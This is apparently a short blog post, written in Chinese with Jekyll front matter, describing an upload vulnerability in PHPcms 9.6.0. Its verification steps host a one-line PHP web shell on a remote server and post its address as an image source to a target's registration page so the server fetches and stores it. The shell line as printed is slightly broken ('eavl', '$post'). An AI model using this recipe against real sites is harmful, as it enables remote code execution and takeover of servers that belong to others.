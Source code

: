 ```yaml
---
layout: post
title: PHPcms9.6.0 上传漏洞
category: exp
comments: true
description: PHPcms9.6.0  的一个漏洞
tags:
    - liuhun
---
```


### 漏洞验证
1. 首先在远程HTTP服务器上准备一个txt文件，内容一句话
> `<?php @eavl($post['lh']); ?>`
2. 向目标注册页面发送POST请求  
   POST内容里img的 src为上面的一句话地址

